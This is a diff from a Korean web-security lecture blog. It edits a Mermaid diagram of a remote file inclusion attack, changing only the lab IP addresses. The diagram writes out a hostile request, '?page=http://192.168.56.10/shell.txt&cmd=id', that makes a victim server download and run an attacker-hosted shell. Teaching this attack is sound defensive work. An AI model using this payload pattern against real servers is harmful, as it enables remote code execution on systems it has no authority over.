

One commit to sbaek100/sbaek100.github.io changed the second of 4 diagrams in _posts/1.응용강의/websecurity/2026-06-01-websec-09-file-inclusion.md. Above: the diagram before and after it, drawn with Mermaid (forest theme). The commit also changed other lines of this file and 518 other files, not shown here.

````diff
--- a/_posts/1.응용강의/websecurity/2026-06-01-websec-09-file-inclusion.md
+++ b/_posts/1.응용강의/websecurity/2026-06-01-websec-09-file-inclusion.md
@@ -185,7 +185,7 @@
 ```mermaid
 flowchart LR
-    A["공격자 서버</br>192.168.0.10"] -->|"shell.txt 호스팅"| B["http://192.168.0.10/shell.txt"]
-    C[공격자 브라우저] -->|"?page=http://192.168.0.10/shell.txt&cmd=id"| D["피해자 서버</br>192.168.0.30"]
+    A["공격자 서버</br>192.168.56.10"] -->|"shell.txt 호스팅"| B["http://192.168.56.10/shell.txt"]
+    C[공격자 브라우저] -->|"?page=http://192.168.56.10/shell.txt&cmd=id"| D["피해자 서버</br>192.168.56.30"]
     D -->|"shell.txt 다운로드 후 실행"| B
     D -->|"id 명령 결과 반환"| C
 ```
````
